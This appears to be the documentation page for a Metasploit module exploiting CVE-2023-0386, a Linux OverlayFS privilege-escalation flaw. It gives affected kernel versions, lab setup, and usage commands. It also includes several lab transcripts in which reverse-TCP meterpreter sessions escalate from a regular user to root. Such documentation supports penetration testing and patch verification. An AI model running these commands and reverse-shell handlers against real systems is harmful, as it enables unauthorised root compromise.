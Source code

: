 ## Vulnerable Application

This exploit targets the Linux kernel bug in OverlayFS.

A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities
was found in the Linux kernel’s OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount.
This uid mapping bug allows a local user to escalate their privileges on the system.

The vulnerability affects:

    * Linux kernel from (including) 5.11 up to (excluding) 5.15.91 and from (including) 5.16 Up to (excluding) 6.1.9

This module was successfully tested on:

    * Ubuntu kernel version 5.13.0-1021-oem on x64/amd64
    * Ubuntu kernel version 6.0.0-060000-generic on x64/amd64
    * Ubuntu kernel version 6.0.19-060019-generic on x64/amd64
    * Ubuntu kernel version 6.1.0-060100-generic on x64/amd64

### Install

1. Install Ubuntu version 22.04 LTS
2. (Optional) Change kernel version
```
sudo apt update
sudo apt install -y linux-image-5.13.0-1021-oem linux-headers-5.13.0-1021-oem
reboot
```
3. Install the required libraries
```
sudo apt update
sudo apt install -y gcc cmake fuse libfuse-dev libcap-dev
```

## Verification Steps

1. Make an Ubuntu
2. Create a meterpreter or shell payload and upload it to the Ubuntu target
3. Set up a handler for the payload
4. Launch the payload as a regular user on the Ubuntu target and connect the handler
5. Do: `use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc`
6. Do: `run session=<session> lhost=<lhost>`
7. You should get a root

## Options

### COMPILE (required)

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.
The default value is `Auto`

### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 60 seconds.

### WritableDir (required)
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios
### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=Auto
```
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.10
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.10:59844) at 2024-09-09 08:22:36 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=Auto

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.AHeqRyKHX/.2zkk6' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.AHeqRyKHX
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.10:54770) at 2024-09-09 08:23:02 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=True
```
msf exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=True

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.cvnVjW/.j3OSujf' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.cvnVjW
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.10:51750) at 2024-09-09 08:23:28 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=False
```
msf exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=False

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.wWno7SA/.Bv3HUIrHyr' (18712 bytes) ...
[*] Writing '/tmp/.wWno7SA/.r1nzG9LZ' (16824 bytes) ...
[*] Writing '/tmp/.wWno7SA/.g0QNeF' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.wWno7SA
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.10:33860) at 2024-09-09 08:23:50 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
